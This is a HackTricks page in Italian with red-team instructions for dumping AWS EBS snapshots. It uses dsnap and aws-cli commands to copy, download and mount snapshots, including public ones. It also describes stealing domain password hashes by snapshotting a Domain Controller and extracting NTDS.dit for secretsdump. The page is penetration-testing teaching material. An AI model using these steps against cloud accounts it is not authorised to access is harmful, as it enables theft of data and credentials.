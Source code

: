 # AWS - EBS Snapshot Dump

{% hint style="success" %}
Impara e pratica AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Impara e pratica GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}

## Controllare uno snapshot localmente
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
{% hint style="danger" %}
**Nota** che `dsnap` non ti permetterà di scaricare snapshot pubblici. Per aggirare questo, puoi fare una copia dello snapshot nel tuo account personale e scaricarlo:
{% endhint %}

{% code overflow="wrap" %}
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
{% endcode %}

Per ulteriori informazioni su questa tecnica, consulta la ricerca originale su [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

Puoi farlo con Pacu utilizzando il modulo [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots)

## Verifica di uno snapshot in AWS

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**Montare in una VM EC2 sotto il tuo controllo** (deve essere nella stessa regione della copia del backup):

Passo 1: Creare un nuovo volume della dimensione e tipo preferiti andando su EC2 –> Volumes.

Per poter eseguire questa azione, seguire questi comandi:

* Creare un volume EBS da collegare all'istanza EC2.
* Assicurarsi che il volume EBS e l'istanza siano nella stessa zona.

Passo 2: Selezionare l'opzione "attach volume" facendo clic con il tasto destro sul volume creato.

Passo 3: Selezionare l'istanza dalla casella di testo dell'istanza.

Per poter eseguire questa azione, utilizzare il seguente comando:

* Collegare il volume EBS.

Passo 4: Accedere all'istanza EC2 e elencare i dischi disponibili usando il comando `lsblk`.

Passo 5: Verificare se il volume contiene dati usando il comando `sudo file -s /dev/xvdf`.

Se l'output del comando sopra mostra "/dev/xvdf: data", significa che il volume è vuoto.

Passo 6: Formattare il volume al filesystem ext4 usando il comando `sudo mkfs -t ext4 /dev/xvdf`. In alternativa, è possibile utilizzare il formato xfs usando il comando `sudo mkfs -t xfs /dev/xvdf`. Si noti che si dovrebbe usare o ext4 o xfs.

Passo 7: Creare una directory a scelta per montare il nuovo volume ext4. Ad esempio, è possibile utilizzare il nome "newvolume".

Per poter eseguire questa azione, utilizzare il comando `sudo mkdir /newvolume`.

Passo 8: Montare il volume nella directory "newvolume" usando il comando `sudo mount /dev/xvdf /newvolume/`.

Passo 9: Cambiare directory nella directory "newvolume" e controllare lo spazio su disco per convalidare il montaggio del volume.

Per poter eseguire questa azione, utilizzare i seguenti comandi:

* Cambiare directory a `/newvolume`.
* Controllare lo spazio su disco usando il comando `df -h .`. L'output di questo comando dovrebbe mostrare lo spazio libero nella directory "newvolume".

Puoi fare questo con Pacu usando il modulo `ebs__explore_snapshots`.

## Verifica di uno snapshot in AWS (usando cli)

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

## Shadow Copy

Qualsiasi utente AWS che possiede il permesso **`EC2:CreateSnapshot`** può rubare gli hash di tutti gli utenti del dominio creando un **snapshot del Domain Controller**, montandolo su un'istanza che controllano ed **esportando il file NTDS.dit e l'hive del registro SYSTEM** per l'uso con il progetto secretsdump di Impacket.

Puoi usare questo strumento per automatizzare l'attacco: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) oppure puoi usare una delle tecniche precedenti dopo aver creato uno snapshot.

## Riferimenti

* [https://devopscube.com/mount-ebs-volume-ec2-instance/](https://devopscube.com/mount-ebs-volume-ec2-instance/)

{% hint style="success" %}
Impara e pratica AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Impara e pratica GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repo di github.

</details>
{% endhint %}
